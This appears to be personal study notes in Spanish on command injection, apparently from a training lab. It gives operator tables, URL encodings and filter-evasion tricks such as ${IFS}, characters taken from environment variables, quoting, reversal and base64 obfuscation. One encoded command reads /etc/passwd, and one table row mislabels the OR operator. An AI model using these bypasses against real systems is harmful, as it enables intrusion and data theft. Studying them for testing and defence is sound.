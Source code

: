 ## Cheet shit 

Sirve para todos los lenguajes:

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

| **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                |
## Bypassing blacklisted

#### espacios
`%09` -> tabs

`${IFS}` ->Linux Environment Variable(por default se sustituye a un espacio)

con Braces

```shell-session
{ls,-la}
```

#### Chars

##### Linux
```
┌──(bonack㉿kali)-[~]  
└─$ echo ${PATH:0:1}  
  
/
```

```
bonack@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```

```shell-session
bonack@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
bonack@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```


##### Windows

CMD

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%

\
```

Power-Shell

```powershell-session
PS C:\htb> $env:HOMEPATH[0]

\
```

#### Commands

COMILLAS

(el número de comillas que le metas tiene que ser par)

```
w'h'o'am'i
w"h"o"am"i
```

Solo para linux:

```bash
who$@ami
w\ho\am\i
```

```shell-session
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

```shell-session
$(rev<<<'imaohw')
```
(lo encodeado es el comando)
```shell-session
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

Solo Windos:

```cmd-session
C:\htb> who^ami
```

```powershell-session
PS C:\htb> WhOaMi
```

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```
(lo encodeado es whoami)
```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))
```
